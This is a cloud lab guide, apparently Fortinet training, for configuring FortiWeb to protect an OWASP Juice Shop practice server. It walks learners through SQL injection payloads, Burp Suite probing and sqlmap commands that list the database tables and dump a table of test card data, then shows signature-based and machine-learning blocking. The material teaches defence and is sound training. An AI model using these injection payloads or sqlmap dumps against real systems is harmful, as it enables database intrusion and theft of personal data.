# FortiWeb
FortiWeb is Fortinet's Web Application and API security platform, enabling enterprise customers to protect web applications no matter where they are deployed.  FortiWeb defends web applications and APIs against OWASP Top-10 threats, DDOS attacks, and malicious bot attacks. Advanced ML-powered features improve security and reduce administrative overhead. Capabilities include anomaly detection, API discovery and protection, bot mitigation, and advanced threat analytics to identify the most critical threats across all protected applications.

## Overview
In this lab, you will have an opportunity to configure FortiWeb to protect a Juice Shop server, emulating a very vulnerable e-commerce website.  In the interest of time, we will perform relatively simple SQL injection attacks to highlight both signature based and Machine Learning powered Application securtiy.


### Objectives
In this lab:

- You will configure Server objects, Virtual servers, and Server policies on the FortiWeb-VM via the FortiWeb GUI to install and enable a webserver (Juice-Shop) hosted in GCP access to the Internet and then enable Virtual IPs to protect the web servers against OWASP Top 10 and other web attacks by the FortiWeb.

## Setup and requirements
### Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources will be made available to you.

This hands-on lab lets you do the lab activities yourself in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials that you use to sign in and access Google Cloud for the duration of the lab.

To complete this lab, you need:

* Access to a standard internet browser (Chrome browser recommended).  
    >*Note: Use an Incognito or private browser window to run this lab. This prevents any conflicts between your personal account and the Student account, which may cause extra charges incurred to your personal account.*

* Time to complete the lab---remember, once you start, you cannot pause a lab.  
> *Note: If you already have your own personal Google Cloud account or project, do not use it for this lab to avoid extra charges to your account.*

### How to start your lab and sign in to the Google Cloud Console

1. Click the **Start Lab** button. If you need to pay for the lab, a pop-up opens for you to select your payment method. On the left is the **Lab Details** panel with the following:
    * Time remaining
    * Your temporary credentials that you must use for this lab
    * Your temporary project ID
    * Links to additional student resources

2. Open Google Cloud console in new browser tab by clicking the **Google Cloud Console** link in **Student Resources**.
    ***Tip:*** Arrange the tabs in separate windows, side-by-side.
    >*Note: If you see the Choose an account dialog, click Use Another Account.*

3. Copy the **GCP Username** and **Password** from the **Lab Details** panel and paste it into the Sign in dialog. Click **Next**.
    > Important: You must use the credentials from the left panel. Do not use your Google Cloud Skills Boost credentials.

    >*Note: Using your own Google Cloud account for this lab may incur extra charges.*

4. Click through the subsequent pages:
    * Accept the terms and conditions.
    * Do not add recovery options or two-factor authentication (because this is a temporary account).
    * Do not sign up for free trials.

## Lab Environment

Below is a diagram of the Lab environment.



### Task 1: Connect to FortiWeb & WebServer

In this step you will connect to the FortiWeb.  Using the outputs from **Student Resources** on the left of the lab start screen, , in your favorite browser, input "https://**FortiWeb-IP**:8443".  This will result in a privacy error, due to the self signed certificate in FortiWeb.  Click on "Advanced" and then Proceed.  Input **admin** as the "Name" and **FortiWeb Password** from **Student Resources** as the "Password".  You will be required to change your password.  Once this is complete, proceed to login.



1.  Once you login you will be at the FortiWeb Dashboard setup




### Task 2: Check Connectivity to WebServer


1.  Click on CLI Console to check the connectivity to the web server




2.  Check connectivity to the web server via CLI-Console.
    Ping Internal IP of the WebServer.



```sh

execute ping 10.10.3.2

```

### Task 3: Create Server Pool

1.  Navigate to **Server Objects** > **Server** > **Server Pool** > **Create new**



2.  Input information as shown below. Select the Server Balance option for Server Health check option to appear. Click OK.



3.  The greyed out Create new button should now appear to create the Server object. Click **Create New**



4. Now enter the IP address of your application server in this case it is the IP address of Apache Server, the port number the pool member/application server listens for connections. We are using port 3000 in this case as that is the port our Juice Shop container is listening on.  Click **OK**





### Task 4:  Create Virtual Server and IP

1. Now we will need to create the Virtual Server IP on which the Traffic destined for server pool member arrives. When FortiWeb receives traffic destined for a Virtual server it can then forward to its pool members. 



2. Enter the name for the Virtual Server and click OK



3. Click Create new as shown below to now create Virtual Server item.



4. Virtual Server item can be an IP address of the interface or an IP other than the interface. In this case we will use the interface IP - Turn on the Radio button for “use interface IP”, a drop down with interfaces will appear. Select Port1 as the interface for this Virtual Server item and click OK.



5. The Virtual Server for the Apache Server is now using the IP address of the Port1 Interface. 



### Task 5:  Create Server Policy  

1. We will now create a Policy to apply a protection profile to protect our application Server. Before creating a policy let’s look at few default protection profiles which are **pre-configured on FortiWeb**. The Inline Standard protection profile consists of signatures to protect against SQL injection, XSS and other generic attacks. Navigate to **Policy** > **Web Protection Profile**



>*Note: We are only viewing existing Profiles.  You can create your custom Protection profile as well.*

2. Now let’s create a Server policy. Click on  **Policy** > **Server Policy** > **Create New** Input Name for the server policy, Select the Virtual Server, Server pool which we created in the earlier steps from the drop down and finally Select the HTTP service. In this step we are **not** attaching the Protection profile. Click OK.





## Attack 1 Simple SQL Injection

### Task 1: Perform a simple SQL injection attack

According to the Open Worldwide Application Security Project (OWASP):

<ql-infobox>
A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.
</ql-infobox>


You can find more information at "https://owasp.org/www-community/attacks/SQL_Injection"

For this task, we will just use a simple Browser.  This can be done directly from your desktop.

1. Now let’s Navigate to the browser and type the Public IP assigned to your FortiWeb instance to get to the web browser. http://FortiWebIP


2. Let’s perform a SQLi attack. To perform a SQLi attack append ?name=' OR 'x'='x to your URL.

```sh

For example: http://34.135.252.181/?name=' OR 'x'='x

```

<ql-infobox>
Note: The attack will go through
</ql-infobox>



### Task 2:  Protect WebServer from Attack

1. We will now attach the FortiWeb protection profile.

Click the dropdown and attack inline standard protection. Click OK.





2. Repeat the same step to perform SQLi attack in the browser. 

```sh

For example: http://34.135.252.181/?name=' OR 'x'='x

```

<ql-infobox>
Note: You will see that FortiWeb now blocks the SQLi attack.
</ql-infobox>



## Attack 2 Dig Deeper

Now that we have done a simple SQL injection attack, let's take a deeper dive into some of the tools that an actual hacker (or Red Team) might actually use to attack an application.

### Task 1: Use Burp Suite to find a vulnerability

Burp Suite gives us a quick and easy way to query targeted sites.

1. Log into Kali using the public IP from **Student Resources**.

```sh

https://kali-pip/vnc.html

```

Accept certificate errors and proceed.  When prompted, click **Connect**.  This will take you to the home screen of Kali

2. At the bottom of the page, click on the terminal icon (black box).  Once open, input:

```sh

burpsuite

```

3. Burp Suite will pop up. Accept all of the warnings and EULAs.  Leave Temporary Project selected and click **Next**



4. Leave "Use Burp defaults" selected and click **Start Burp**.



5. Accept the warning that Burp Suite is out of date adn then select settings at the top right of the screen.



6. In the settings menu, select **Burp's browser**.  Under **Browser running** check the box for "Run Burp's browser without a sandbox"



>*Note: once the button is clicked, just close the settings menu.  There is no need to save.*

7. Click on the **Proxy** tab at the top of the Burp Suite screen.  This will bring you to the Intercept screen.  Click on **Open Browser**



8. In the browser URL bar, input http://fortiweb-public-ip and hit enter.  This will bring you to the juice shop home page.


9. Minimize the browser and click on the **HTTP History** tab under Proxy.  Scroll down the list until you find a URL labeled **"/rest/products/search?q=**.  Select this line and right click.  Then click on **Send to Repeater**.  This will allow us to manipulate the requests in order to do a little nefarious recon.



10. At the top of Burp Suite, Click on the **Repeater** Tab.  You will see the request we just sent.  Now click on the **Send** Button.  This will populate the Response area.



11. Now we are going to modify our query a bit.  Click on the First line in the Raw request and add **'--** to our get request after.  The GET should now look like **/rest/products/search?q='--**.  Click **Send**.  We will now see an error in the Response section.  This error telss us that the database is SQLITE and uncovers a vulnerability.



>*Note: It's worth mentioning that the standard signature based Web Protection Profile did not catch this injection attempt.  We will see that this same type of attempt is caught using ML below.*

### Task 2:  Turn off Web Protection Profile

Before we we can use SQLMAP to scan our application, we must disable the Web Protection Profile in our FortiWeb Policy.  Navigate to **Policy** > **Server Policy** and edit JuiceShop_Policy.  Click the drop down next to **Web Protection Profile** and turn off select the blank box at the top.  Click OK.



### Task 3: Use SQLMAP to exploit vulnerability

We will now use the information gained above along with sqlmap to see if we can get some "Juicy" information (pun intended).  You could run SQLMAP initially to find the vulnerability, but It would take much longer without an idea of what you were looking for.

1.   Open a terminal on Kali, and take a look at the SQLmap help page.  I also think it's helpful to use bash shell here, as we will want to be able to use the up arrow in order to scroll though old commands

```sh

bash
sqlmap -h

```

2. Now we will find exactly which type of SQL injection exists.  Since we know that the database runs on **sqlite** we can shorten the scan time by giving sqlmap that information.  Input the first line below at the terminal, substituting your FortiWeb Public IP.

```sh

sqlmap -u "http://34.29.253.139/rest/products/search?q="  --dbms=SQLite --technique=B --level 3 --batch

```

```plaintext output

...[SNIP]...
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: q (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: q=') AND 1976=1976 AND ('zuWc' LIKE 'zuWc
---
...[SNIP]...

```

3. Now we can have sqlmap figure out a list of all tables in the database.  We will speed up the request by adding the **--threads 10** to allow sqlmap to send 10 concurrent requests.

```sh

 sqlmap -u "http://34.29.253.139/rest/products/search?q="  --technique=B --tables --threads 10

```

```plaintext output

...[SNIP]...
<current>
[20 tables]
+-------------------+
| Addresses         |
| BasketItems       |
| Baskets           |
| Captchas          |
| Cards             |
| Challenges        |
| Complaints        |
| Deliveries        |
| Feedbacks         |
| ImageCaptchas     |
| Memories          |
| PrivacyRequests   |
| Products          |
| Quantities        |
| Recycles          |
| SecurityAnswers   |
| SecurityQuestions |
| Users             |
| Wallets           |
| sqlite_sequence   |
+-------------------+
...[SNIP]...

```

4. Now that we know what tables are available, we can start extracting information.  For our example here, the **Cards** table looks interesting.  Let's see if we can pull something useful from there.

```sh

 sqlmap -u "http://34.29.253.139/rest/products/search?q=" --technique=B -T Cards --threads 10 --dump

```

```plaintext output

...[SNIP]...
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] N
Database: <current>
Table: Cards
[6 entries]
+----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
| id | UserId | 255 | cardNum          | expYear | expMonth | fullName         | createdAt                      | updatedAt                      |
+----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
| 1  | 4      | 255 | 4815205605542754 | 2092    | 12       | Bjoern Kimminich | 2022-03-28 17:02:26.911 +00:00 | 2022-03-28 17:02:26.911 +00:00 |
| 2  | 17     | 255 | 1234567812345678 | 2099    | 12       | Tim Tester       | 2022-03-28 17:02:27.287 +00:00 | 2022-03-28 17:02:27.287 +00:00 |
| 3  | 1      | 255 | 4716190207394368 | 2081    | 2        | Administrator    | 2022-03-28 17:02:27.308 +00:00 | 2022-03-28 17:02:27.308 +00:00 |
| 4  | 1      | 255 | 4024007105648108 | 2086    | 4        | Administrator    | 2022-03-28 17:02:27.308 +00:00 | 2022-03-28 17:02:27.308 +00:00 |
| 5  | 2      | 255 | 5107891722278705 | 2099    | 11       | Jim              | 2022-03-28 17:02:27.330 +00:00 | 2022-03-28 17:02:27.330 +00:00 |
| 6  | 3      | 255 | 4716943969046208 | 2081    | 2        | Bender           | 2022-03-28 17:02:27.344 +00:00 | 2022-03-28 17:02:27.344 +00:00 |
+----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
...[SNIP]...

```

## Attack 3 ML Anomaly Detection

We will use the same SQL injection from the Burp Suite exercise in Attack 2 above.  As we will see, FortiWeb Machine Learning (ML) will successfully block this attack.  Using ML, FortiWeb creates a statistical data model based on "normal" observed traffic.  This occurs during an initial learning period.  As discussed at the beginning of Class, any request that falls outside of this statistical distribution is considered an anomaly and will be passed to the second layer of ML, which is the FortiGuard powered Threat Engine.  In a production environment, it is highly recommended to turn on both the Signature based Web Protection Profile and ML, as this gives the best opportunity to catch both known and unknown attacks.

1. Go to the below github repo:

```sh

https://github.com/fortidg/fweb-dat/blob/main/JuiceShop_ServerPolicy-202308071507.anomaly.dat

```

2. Download the .dat file:



3. Because we are using a pre-trained data model based on a wildcard url, we will need to use a domain name.  For this test, we are going to edit the **/etc/hosts** file on Kali.  This will allow us to locally resolve **student.fwebtraincse.com**.  Open a new Terminal and use the directional arrows on your keyboard to navigate.  When you get to the bottom of the hosts file, input **fortiweb-public-ip student.fwebtraincse.com**.  To save, type ctrl + o  then hit enter to confirm the save.  Finally, type ctrl + x to exit.

```sh

nano /etc/hosts

```

Below is an example from a previous lab of what the hosts file looks like after edit.



4. Let's add Machine Learning to our Server Policy.  In FortiWeb, navigate to **Policy** > **Server Policy** and edit JuiceShop_Policy.  Scroll down and expand the **Machine Learning** section.  Under **Anomaly Detection** click on the **+** icon and enter **student** click OK.



5. Once the previous step is completed, we will see a few icons.  Click the **Import** icon.



6. Once the pop-up opens, click on browse.  Find and select the .dat file we downloaded earlier and then click OK.



7. In FortiWeb, navigate to **Web Protection** > **ML Based Anomaly Detection** and edit the first entry.  You should see a screen like below.  Click on the "*.fwebtraincse.com" link.



8. Select the **Tree View** tab and expand the domain menu as shown and click on search.  You should see the parameter "q" as **Running**



9. Go back to Kali and open Burp Suite **Proxy** > **Intercept** and clcik on **Open browser** in the new browser window, input the url, using the dns name from earlier:

```sh

http://student.fwebtraincse.com 

```

10. Back in the Burp Suite window click on **Proxy** > **HTTP history** scroll through until you find a host entry with the **full DNS Name** and the the url **/rest/products/search?q=***.  Right click and select **Send To Repeater**.  From the

11. From the **Repeater** tab.  Edit the first entry again, adding **'--**.  In the Response section, you will see a "500 Internal Server Error. If you scroll down to the bottom, you can see Attack ID and other information in the Block Notification.



12. From FortiWeb, navigate to **Dashboard** > **FortiView Threats** and double clcik on the SQL Injection Threat.



13. Drill into the threat log using double click.  You will ultimately come to the Log Details screen, where you can see that this was blocked by Machine Learning.



### Congratulations!

Congratulations, you have successfully completed this lab.  Your environment will automatically delete itself at the end of the alloted lab time.
